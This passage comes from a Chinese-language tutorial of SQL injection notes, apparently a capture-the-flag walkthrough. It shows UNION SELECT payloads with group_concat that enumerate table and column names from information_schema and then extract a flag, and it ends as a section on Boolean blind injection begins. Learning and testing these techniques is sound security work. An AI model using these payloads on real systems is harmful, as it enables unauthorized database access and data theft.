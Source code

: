 3> **group_concat()函数**

group_concat()会计算哪些行属于同一组，将属于同一组的列显示出来。

查询方式：

```
union select group_concat(table_name,'/') from information_schema.tables where table_schema='db_name'
```

[![img](https://yvling-blog-image-1257337367.cos.ap-shanghai.myqcloud.com/%E5%8D%9A%E5%AE%A2/SQL%E6%B3%A8%E5%85%A5%E7%AC%94%E8%AE%B0/2022-04-02/%E7%A1%AE%E5%AE%9A%E8%A1%A8%E5%90%8D.png)](https://yvling-blog-image-1257337367.cos.ap-shanghai.myqcloud.com/博客/SQL注入笔记/2022-04-02/确定表名.png)



##### g、确定字段名

与查询表名的方法类似，从 **information_schema** 中的 **columns** 表查询字段名：

```
union select group_concat(column_name,'/') from information_schema.columns where table_name='tb_name'
```

[![img](https://yvling-blog-image-1257337367.cos.ap-shanghai.myqcloud.com/%E5%8D%9A%E5%AE%A2/SQL%E6%B3%A8%E5%85%A5%E7%AC%94%E8%AE%B0/2022-04-02/%E7%A1%AE%E5%AE%9A%E5%AD%97%E6%AE%B5%E5%90%8D.png)](https://yvling-blog-image-1257337367.cos.ap-shanghai.myqcloud.com/博客/SQL注入笔记/2022-04-02/确定字段名.png)



##### h、获取数据

获取数据库名、表名、字段名后就可以像正常查询数据一样获取数据库中的各种信息：

```
union select 1,2,group_concat(id,flag) from agPNVTRs-- 
```

![image-20220428151928285](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220428151928285.png)

成功拿到flag。



### Boolean盲注

盲注，就是在服务器没有错误回显时完成的注入攻击。
